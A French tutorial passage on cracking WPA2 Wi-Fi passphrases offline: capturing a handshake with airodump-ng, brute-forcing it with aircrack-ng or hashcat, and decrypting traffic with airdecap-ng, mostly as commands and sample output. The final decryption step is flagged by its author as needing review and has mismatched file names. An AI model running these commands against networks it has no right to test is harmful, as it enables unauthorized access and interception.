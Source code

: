 ### Attaques par Brute-Force

Il est possible d'effectuer des attaques par brute force en mode offline pour retrouver la passphrase. Il faut pour cela récupérer l'handshake entre un client et l'AP. Pour cela on peut utiliser airodump-ng:

``` bash
airodump-ng --bssid D0:84:B0:00:C2:B0 wlan0mon --channel 1 --write capture
```

On peut arrêter la capture dès qu'on a une indication de la capture de l'handshake:

``` bash
 CH  1 ][ Elapsed: 12 s ][ 2016-05-31 11:25 ][ WPA handshake: D0:84:B0:00:C2:B0

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

 D0:84:B0:00:C2:B0  -28 100      114      262   57   1  54e  WPA2 CCMP   PSK  Bbox-86417B1E

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe

 D0:84:B0:00:C2:B0  FC:F8:AE:5B:AA:04  -18    1e- 0e   156      152
 D0:84:B0:00:C2:B0  A0:F8:95:21:81:3C  -20    0e- 1      0      104
```

Il est alors possible de lancer une attaque par bruteforce avec aircrack-ng. Il faut spécifier le fichier dans lequel on a stocké la capture airodump et une wordlist (**Rappel**: entre 8 et 63 caractères):

``` bash
aircrack-ng output-01.cap -w wordlist
```
On peut aussi utiliser hashcat. Il faut pour cela utiliser hashcat-utils pour convertir au bon format:

``` bash
[~] /opt/hashcat-utils/src/cap2hccapx.bin # A installer à partir de https://github.com/hashcat/hashcat-utils                              
usage: /opt/hashcat-utils/src/cap2hccapx.bin input.pcap output.hccapx [filter by essid] [additional network essid:bssid]
[~] /opt/hashcat-utils/src/cap2hccapx.bin capture-01.cap capture.hccapx                                                                                                                                    
Networks detected: 1

[*] BSSID=cc:66:aa:22:55:44 ESSID=XXX (Length: 3)
 --> STA=ff:ff:ff:ff:ff:ff, Message Pair=2, Replay Counter=0

Written 16 WPA Handshakes to: capture.hccapx
```

(**A revoir**)Il est ensuite de déchiffrer les données avec airdecap-ng:

``` bash
airdecap-ng --bssid D0:84:B0:00:C2:B0 wlan0mon -p PASSPHRASE output.cap
```
